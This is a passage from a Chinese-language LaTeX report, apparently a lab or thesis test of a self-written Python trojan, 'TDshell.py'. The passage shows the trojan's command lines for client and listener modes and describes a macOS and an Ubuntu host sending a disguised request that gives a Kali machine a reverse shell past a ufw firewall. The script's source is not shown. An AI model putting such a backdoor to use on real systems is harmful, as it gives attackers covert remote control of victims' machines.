 Mac OS中在终端里通过切换命令跳转到木马程序当前路径下，或者在图形界面在木马程序文件夹上右击选中服务，选中在当前文件夹下以终端形式打开，再通过输入python TDshell.py -s [ip] [port]命令来启动攻击机主机客户端的监听功能，设定服务端IP地址和监听端口。
\begin{figure}[h]
\centering
\texttt{[image: macos反弹shell.png]}
\caption{Mac OS 执行脚本客户端模式}
\label{fig:4}
\end{figure}


在上个步骤中，Mac OS 执行终端命令后，木马后门程序执行后，在宿主主机上发送一个看似正常的请求，请求通过socket发送到之前设定的ip地址和端口上，实现shell的反弹。这里就能够看到Kali的终端里已经可以执行宿主主机的命令。
\begin{figure}[h]
\centering
\texttt{[image: kali拿到macosshell.png]}
\caption{Kali拿到Mac OS shell}
\label{fig:5}
\end{figure}


\section{Linux环境下测试}
Ubuntu的不同版本情况不同，这里我们通过sudo apt-get install 命令安装python环境，同样Ubuntu中同样需要再次安装防火墙ufw，配置完成并启动后，攻击机主机开启脚本服务端模式开始监听，最后打开宿主主机上的脚本执行客户端命令，实现shell反弹。

\begin{itemize}
	\item 宿主主机：Ubuntu 18.04 
	\item 攻击主机：Kali Linux 2.0
\end{itemize}





先在Ubuntu中配置python环境。安装过程中需要等段一段时间，安装完成后可以通过终端如数python检测是否安装成功。
\begin{figure}[h]
\centering
\texttt{[image: Ubuntu安装python.png]}
\caption{python环境配置}
\label{fig:6}
\end{figure}

Ubuntu通过sudo apt-get install ufw 安装防火墙，该防火墙属于Linux系统中较为典型的防火墙，通过第二章内容中的配置方法配置完成并打开。

\begin{figure}[h]
\centering
\texttt{[image: ubuntu安装防火墙]}
\caption{配置防火墙信息}
\label{fig:7}
\end{figure}

Kali Linux 2.0中在终端里通过切换命令跳转到木马程序当前路径下，或者在图形界面在木马程序文件夹内上右击，然后选中在当前文件夹下以终端形式打开，再通过输入python TDshell.py -l [ip] [port]命令来启动攻击机主机服务端的监听功能，设定服务端IP地址和监听端口。


